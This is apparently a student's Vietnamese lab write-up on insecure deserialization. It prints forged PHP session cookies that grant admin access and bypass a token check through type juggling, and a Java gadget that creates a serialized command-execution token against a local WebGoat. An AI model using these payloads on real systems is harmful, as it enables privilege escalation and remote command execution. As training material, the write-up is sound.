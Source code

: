 # ltat_lab2
## Bài 7:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/8ec78c64-6948-45e6-858b-bee4f018de1e)


- Mục tiêu của bài này là xóa được user ```carlos``` .
- Trước hết mình phải login bằng user và pass được cho trước.
- Sau một hồi scan thì mình tìm được đường dẫn ```/admin``` .

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/c657e443-280e-40c4-8361-f27aafb68927)


- Có vẻ mình không thể vào được với người dùng bình thường.
- Check sơ qua cookie thì mình thấy một cookie có giá trị là ```session``` .
- Mình sẽ thử bật burpsuite lên để test thử.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/c00d99fd-d043-411b-a24d-d44b345fa787)


- Khi gửi req đến ```/admin``` server sẽ kiểm tra biến session của chúng ta, khi mình decode thử thì ra được một đối tượng là user.
- Điểm đáng chú ý ở đây là giá trị admin của session này đang là 0 ( do biến bool quyết định )
- Giờ mình chỉ cần chuyển nó về thành 1 và gửi req thì có thể bypass phần này.

  ![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/40464057-71cf-40b6-8ed0-984193eaf6f7)


- Giờ thì khi xóa user ```carlos``` chúng ta cũng sẽ làm tương tự.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/07f9b6f5-9609-46b2-aab2-94998f341e08)


```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d```

## Bài 8:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/40278edf-59b9-4757-b827-5918f469a98b)


- Bài này lúc đầu vào cũng giống bài trước nên mình sẽ vào thẳng phần session.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/78681bee-3415-44f3-bf0f-18b6d2670de1)



```O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f4fb8seskjly3qw37onpt6ujkprn1co7";}```

- Ở đây chúng ta có vài trường mới trong class User này đó là ```username``` và ```access_token```.
- Theo mình hiểu thì ```access_token``` là một trường dùng để kiểm tra xem class có bị sửa đổi gì hay không và nếu nó sai thì sẽ không cho ta truy cập.
- Còn về phần username thì ở đây bắt buộc phải là ```administrator``` .
- Mình đọc hint thì có vẻ bài này được viết trên PHP, và mình nghỉ ngay đến một lỗi trong quá trình so sánh kiểu dữ liệu của PHP đó là php type juggling.
- Từ những dữ kiện trên, mình đã đã tạo được một class mới với giá trị như sau.

```O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}```
- Với Class này, mình đã đổi tên của user và đồng thời ép kiểu dữ liệu của access_token là int với giá trị là 0. Điều này làm cho biến access_token sẽ bị lỗi và trả về giá trị đúng.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/77148656-91ab-4190-a383-3062ad41e0df)


- Vậy là mình đã bypass qua phần admin, bây giờ chỉ cần xóa User là solve được bài này.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/036cf3aa-e73e-4fa5-9418-85bcf3159af4)


```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9```

## Bài 9:

- Để có WebGoat trên loacal thì trong bài này mình sẽ dùng Docker để hosting.

```docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat```
- Sau khi chạy lệnh trên thì trên docker của bạn đã có container của WebGoat.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/397fb3fc-d1e2-4d27-964d-2a378e6baa1f)

- Để truy cập chúng ta chỉ cần vào đường dẫn ```localhost:8080/WebGoat```
  
![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/15f8338f-240b-46a7-9ad8-512cd9ac77c1)


- Đây là một chall về JAVA, đề cho chúng ta một đoạn code có sẵn:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/9c63ccc9-23a1-4d64-9a7f-76473226e4b2)


- Ở đây chúng ta có một đoạn code đáng chú ý.
 
![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/0f68e543-f98e-4824-a01a-3e11b7035693)


- Class VulnerableTaskHolder sẽ truyền mọi taskAction mà ta truyền vào nó, điều này có nghĩa là chúng ta có thể tận dụng điểm này để truyền một câu lệnh nào đó vào đây.
- Mình sẽ viết một đoạn code để có thể tạo một token thực hiện lệnh ```ping``` .

```java

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import org.dummy.insecure.framework.VulnerableTaskHolder;


public class Program {
    public static void main(String args[]) throws Exception{
        VulnerableTaskHolder vulnObj = new VulnerableTaskHolder("ping","ping -n 4 127.0.0.1");
		
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(vulnObj);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));
    }
}
```

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/60b9c880-cbe8-4250-adb7-3744f28119d4)


-Đây là Token:
```rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfnChQWOB41NIOieHQAE3BpbmcgLW4gNCAxMjcuMC4wLjF0AARwaW5n```

![393904979_776481387524809_6695519617529434868_n](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e46f6d5b-4765-42d1-b78f-2b6d324799b1)


